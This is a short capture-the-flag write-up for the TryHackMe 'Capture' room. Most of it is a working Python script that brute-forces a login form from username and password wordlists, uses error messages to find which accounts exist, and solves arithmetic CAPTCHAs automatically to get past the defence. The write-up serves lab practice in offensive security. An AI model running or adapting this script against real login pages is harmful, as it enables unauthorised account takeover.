 # Capture - [TryHackMe](https://tryhackme.com/room/capture) Writeup 
The task involves brute-forcing the login form and entering the correct CAPTCHA.

## 1. Download the zip file provided by the task.
We get two text files in the folder: usernames.txt and passwords.txt. Download the zip file provided for the task.

## 2. Scripts
This script was used for brute-forcing logins and solving captchas.

```python
import re
import requests
from tqdm import tqdm

URL = "http://10.10.10.10/login"
USERNAMES_FILE = "usernames.txt"
PASSWORDS_FILE = "passwords.txt"
SUCCESS_TEXT = "Welcome" 

HEADERS = {
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/x-www-form-urlencoded"
}

session = requests.Session()

def calculate(num1, num2, operation):
    if operation == '+': return num1 + num2
    if operation == '-': return num1 - num2
    if operation == '*': return num1 * num2
    if operation == '/': return num1 / num2
    raise ValueError(f"Unknown operation: {operation}")

def extract_captcha(text):
    match = re.search(r"(\d+)\s*([\+\-\*/])\s*(\d+)", text)
    if match:
        num1, op, num2 = int(match[1]), match[2], int(match[3])
        return str(int(calculate(num1, num2, op)))
    return None

def user_does_not_exist(response_text):
    return "does not exist" in response_text.lower()

def attempt_login(username, password):
    data = {"username": username, "password": password}
    try:
        response = session.post(URL, headers=HEADERS, data=data, timeout=5)
        text = response.text.lower()

        if user_does_not_exist(text):
            return "skip", None

        if "captcha" in text:
            captcha = extract_captcha(text)
            if captcha:
                data["captcha"] = captcha
                response = session.post(URL, headers=HEADERS, data=data, timeout=5)
                text = response.text.lower()

        if SUCCESS_TEXT.lower() in text:
            return "success", response.text
        else:
            return "fail", None
    except Exception as e:
        return "error", str(e)

def main():
    with open(USERNAMES_FILE) as uf, open(PASSWORDS_FILE) as pf:
        usernames = uf.read().splitlines()
        passwords = pf.read().splitlines()

    for username in tqdm(usernames, desc="Usernames"):
        for password in passwords:
            status, result = attempt_login(username, password)
            if status == "skip":
                tqdm.write(f"[!] Skipping {username} — user doesn't exist")
                break
            elif status == "success":
                tqdm.write(f"[+] SUCCESS! {username}:{password}")
                with open("found.txt", "w") as f:
                    f.write(f"{username}:{password}\n")
                return
            elif status == "fail":
                tqdm.write(f"[-] Failed: {username}:{password}")
            elif status == "error":
                tqdm.write(f"[ERROR] {result}")
    
    tqdm.write("[-] Bruteforce finished. No valid credentials found.")

if __name__ == "__main__":
    main()
```
Yes, we managed to obtain a login and password.

## Conclusions 

An interesting room for practising brute-forcing and light scripting.
